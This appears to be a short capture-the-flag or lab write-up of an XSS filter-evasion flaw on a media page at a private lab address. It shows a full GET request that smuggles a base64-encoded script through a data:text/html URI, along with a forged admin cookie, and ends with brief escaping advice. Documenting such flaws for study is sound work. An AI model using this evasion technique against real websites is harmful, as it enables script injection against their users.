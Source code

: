 Vulterability 12
------

Type: `xss filter evasion` :   

Request page : `http://10.11.200.146/?page=media`   

Request media page with xss filter evasion:
```
GET http://10.11.200.146/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydChPTUcgVEhJUyBJUyBJTlNBTkUpPC9zY3JpcHQ+ HTTP/1.1
Host: 10.11.200.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive
Upgrade-Insecure-Requests: 
```

URLs prefixed with the data: scheme, allow content creators to embed small files inline in documents.
Defaults is text/plain, we set it to text/html in order to execute our java script code 

There is also a filter evasion. We need to encode our `<script>alert()</script>`, luckly you can specify base64 to embed base64-encoded binary data : 
```
base64,PHNjcmlwdD5hbGVydChPTUcgVEhJUyBJUyBJTlNBTkUpPC9zY3JpcHQ+
```
We had this to our initial request and the `alert()` is executed.

### Resolv ?
- Never Insert Untrusted Data Except in Allowed Locations
- HTML and javascript Escape Before Inserting data
